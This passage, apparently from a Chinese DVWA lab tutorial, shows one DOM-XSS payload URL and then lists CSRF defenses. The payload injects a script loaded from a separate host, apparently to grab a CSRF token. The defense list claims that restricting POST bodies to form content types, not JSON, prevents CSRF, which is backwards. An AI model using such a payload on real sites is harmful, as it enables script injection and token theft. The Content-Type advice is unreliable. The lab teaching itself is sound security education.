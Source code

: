 #### payload

```html
http://127.0.0.1/DVWA-master/vulnerabilities/xss_d/?default=English&a=<script src="http://192.168.1.187/ajaxtoken.js"></script>
```



## 防御

跨站请求伪造（CSRF）攻击是一种攻击类型，攻击者试图在用户不知情的情况下执行未经授权的操作。以下是一些防御CSRF攻击的关键措施：

1. 随机化和验证令牌：

   - 在每个敏感操作（如修改密码、更改电子邮件地址）上，为用户生成一个随机且唯一的令牌（CSRF令牌）。将此令牌嵌入表单或请求中，并在服务器端验证令牌的有效性。攻击者无法获取有效的令牌，因此无法执行攻击。

2. 同源策略：

   - 使用同源策略，确保网站只接受来自相同源（同一域名、协议和端口）的请求。这将阻止攻击者伪装成用户进行跨站点请求。

3. 使用Cookie属性：

   - 使用`SameSite`属性来设置Cookie，以限制Cookie在跨站请求中的发送。可以将Cookie标记为`SameSite=Strict`，以确保它仅在相同站点的请求中发送。

4. 验证HTTP Referer头：

   - 验证HTTP请求头中的Referer字段，确保请求来自合法的来源。但要注意，这种方法不是绝对可靠的，因为Referer头可能受到浏览器的限制。

5. 双重提交Cookie：

   - 在某些情况下，可以使用双重提交Cookie方法。服务器会在Cookie中设置一个令牌，并要求每个请求都包含该令牌。攻击者无法访问用户的Cookie，因此无法伪造请求。

6. 检查HTTP方法：

   - 检查HTTP请求的方法（GET、POST、PUT等）。对于敏感操作，只接受POST请求，因为GET请求可能会被攻击者利用。

7. 使用Content-Type头：

   - 检查HTTP请求的Content-Type头。确保POST请求的Content-Type为`application/x-www-form-urlencoded`或`multipart/form-data`，而不是`application/json`等，以防止CSRF攻击。

8. 避免自动登录：

   - 避免自动登录或自动执行敏感操作，特别是在用户未经明确授权的情况下。

9. 清除不再使用的会话：

   - 定期清除不再使用的用户会话，以防止攻击者获取旧的会话令牌。

10. 定期安全审计：

    - 定期进行安全审计和渗透测试，以发现和修复潜在的CSRF漏洞。

综合利用上述措施，可以显著降低CSRF攻击的风险。不同的应用和情境可能需要不同的防御方法，因此建议根据具体情况来选择和实施这些措施。



## XSS与CSRF的区别

跨站脚本（XSS）和跨站请求伪造（CSRF）是两种完全不同的网络安全威胁，它们有不同的攻击方式和目标：
